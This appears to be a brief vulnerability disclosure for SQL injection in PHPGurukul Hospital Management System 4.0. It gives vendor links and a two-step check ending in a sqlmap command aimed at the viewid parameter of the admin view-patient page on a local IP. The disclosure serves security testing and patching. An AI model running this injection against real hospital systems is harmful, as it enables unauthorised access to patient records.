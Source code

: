 Exploit Author: Thinkland Security Team
Vendor Homepage:https://phpgurukul.com/hospital-management-system-in-php
Software Link:https://phpgurukul.com/wp-content/uploads/2018/02/Hospital-Management-System-Project.zip
Version: 4.0
Vulnerability verification
1. Enter username and password to log in
2. Use sqlmap command： sqlmap.py -u http://192.168.50.34/Hospital%20Management%20System%20Project/hospital/hms/admin/view-patient.php?viewid=1 --batch --current-db
